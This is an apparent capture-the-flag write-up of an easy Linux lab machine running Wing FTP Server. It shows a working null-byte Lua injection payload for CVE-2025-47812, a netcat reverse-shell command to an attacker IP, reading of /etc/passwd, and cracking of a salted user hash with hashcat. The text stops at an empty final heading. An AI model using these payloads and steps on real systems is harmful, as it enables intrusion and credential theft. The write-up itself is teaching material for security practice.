<div style="text-align:center">

</div>

- Difficulty: Easy
- OS: Linux
---
# Tools
- Nmap
- python
- ssh
- BurpSuite
- hashcat
---
# Attack Path
- Enumerate open ports
- Information Gathering
- Command Injection
- Gaining a reverse shell
- Linux enumeration
- Wacky user enumeration
--- 
# Port enumeration
To identify open ports, I used Nmap with the following flags:
- sS for a SYN scan
- F for a fast scan
- A to enable OS detection, service version detection, and additional enumeration

We can see that port 80 is open, which is associated with the HTTP protocol.

<div style="text-align:center">

</div>

we can see that the 80 port is open which is associated with the http protocol.

---
# Information gathering



Upon visiting the website, we can see that the server provides file management solutions. When attempting to access the client portal section, a new subdomain is revealed.



I added the new domain to /etc/hosts and accessed the client portal, where I found a login page. User registration was not available; however, the login page disclosed the version of Wing FTP Server in use.




After searching for potential vulnerabilities affecting this version, I discovered [CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812).

---
# Exploitation
## Techniques
- [Embedding Null Code](https://owasp.org/www-community/attacks/Embedding_Null_Code)
- [Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
## Vulnerability Analysis

The login functionality was implemented using Lua scripts that interacted with native backend functions.  
The application improperly handled NULL (`\0`) bytes inside user-controlled input.

By injecting a NULL byte followed by `">`, it was possible to terminate an internal Lua multiline string and inject arbitrary Lua code.

The payload used:

```txt
username=anonymous%00">
local h = io.popen("id")
local r = h:read("*a")
h:close()
print(r)
--
```

worked because:
1. The backend authentication logic truncated the username at the NULL byte.
2. The Lua parser continued processing the remaining content.    
3. `">` terminated an internal Lua multiline string.    
4. Arbitrary Lua statements were then executed.    
5. `io.popen()` was used to execute system commands and capture their output.    

This resulted in remote code execution as the web service user.
<div style="text-align:center">

</div>

As a result, remote code execution was achieved in the context of the web service user.

The response confirms that the payload executed successfully and returned the output of the id command.



## Gaining a revshell
To obtain a reverse shell, I used the following payload:

```bash
nc -c sh [Attacker IP] [PORT]
```

And opened a listener on the attacker's machine.



---
## Linux Enumeration
I confirmed that the OS was linux by running `cat /etc/os-release`



Since I had obtained access as the web service user, wingdata, there were limited privilege escalation opportunities available directly. Therefore, I began searching for valid user accounts that could be leveraged for lateral movement.

The first step was to inspect the /etc/passwd file to identify valid users.



Next, I recursively searched the Wing FTP Server files for stored credentials.



During this process, I discovered a file named wacky.xml. I reviewed its contents in search of useful information and identified the following entries:

```xml
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
    <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
		<Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <EnableTwoFactor>0</EnableTwoFactor>
        <TwoFactorCode></TwoFactorCode>
        <LastLoginIp>127.0.0.1</LastLoginIp>
        <LastLoginTime>2025-11-02 12:28:52</LastLoginTime>
```


The file contains a password hash and we tell us that there is no 2FA enabled. My next step was to locate the server configuration files to determine how passwords were stored, identify the hashing algorithm in use, and determine whether a salt value was being applied.



Since the user data was stored under /Data/1/, I first examined the configuration files in that directory and found the following settings:

```xml
    <Min_Password_Length>0</Min_Password_Length>
    <Password_Have_Numerals>0</Password_Have_Numerals>
    <Password_Have_Lowercase>0</Password_Have_Lowercase>
    <Password_Have_Uppercase>0</Password_Have_Uppercase>
    <Password_Have_Nonalphanumeric>0</Password_Have_Nonalphanumeric>
    <EnableSHA256>1</EnableSHA256>
    <EnablePasswordSalting>1</EnablePasswordSalting>
    <SaltingString>WingFTP</SaltingString>
```
The configuration revealed that passwords were hashed using SHA-256 with salting enabled and a static salt value of WingFTP.

Using this information, I copied the hash value and the salt to crack the credentials using Hashcat on mode 1410 (SHA256 with salt).

``` bash
➜  WingData hashcat -m 1410 hash /usr/share/wordlists/rockyou.txt
```

This successfully recovered the password for the wacky account, which I then used to switch my user.



---
## Wacky user enumeration
